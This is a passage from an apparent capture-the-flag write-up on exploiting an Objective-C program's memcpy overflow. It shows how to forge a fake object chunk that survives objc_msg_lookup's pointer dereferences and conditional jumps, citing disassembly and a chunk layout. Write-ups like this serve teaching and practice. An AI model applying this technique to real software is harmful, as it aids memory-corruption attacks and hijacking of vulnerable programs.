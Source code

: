 From this, it is clear that we will have to make a fake chunk that we can pass to `objc_msg_lookup` that when it tries to dereference all of the various peices of our chunk, it won't crash. What I will do is place a ptr to the start of the chunk, everywhere it looks for a ptr:

Here are some of the checks we need to worry about: 
```
objc_msg_lookup+19
x = dereferenced first eight bytes of chunks

objc_msg_lookup+25
x = dereferenced (x + 0x40) 

objc_msg_lookup+52
x = dereferenced (x + 0x8)

objc_msg_lookup+56
x = dereferenced (x)
```

later on we see some checks like these:

```
objc_msg_lookup+85
x = dereferenced(x + 0x348)

objc_msg_lookup+89
x = dereferenced(x + 0x60)
```

the issue with these checks (particularly the first), is that the dereference a value greater than `0xc8` (the amount of data we get to write to the `turtle` object with `memcpy`), so it stretches beyond the scope of our chunk. However before we hit this code path, we can see a conditional jump that we can influence:

```
=> 0x7ff4fb89fc9e <objc_msg_lookup+46>:	cmp    r8,QWORD PTR [rdx+0x28]
   0x7ff4fb89fca2 <objc_msg_lookup+50>:	jb     0x7ff4fb89fcc0 <objc_msg_lookup+80>
```

Here it just checks to see if a value from our chunk (`0x28` bytes from the start) is greater than the value stored in the `r8` register, and if it is, it jumps to the code path with the checks beyond the scope of our fake chunks. We can just set that value of our chunk equal to `0x0`, so the jump condition should never be satisfied, and we will never hit that code path. Looking through the assembly code, we can see the same condition four times.

With that info we can create a fake chunk which will allow is to get through `objc_msg_lookup` without crashing:

```
turtle = address of 0x0
0x0 - 0x8:	turtle
0x8 - 0x10:	turtle
0x10 - 0x28:  filler data 
0x28 - 0x30: 0x0
0x30 - 0x40: filler data
0x40 - 0x48: turtle
``` 
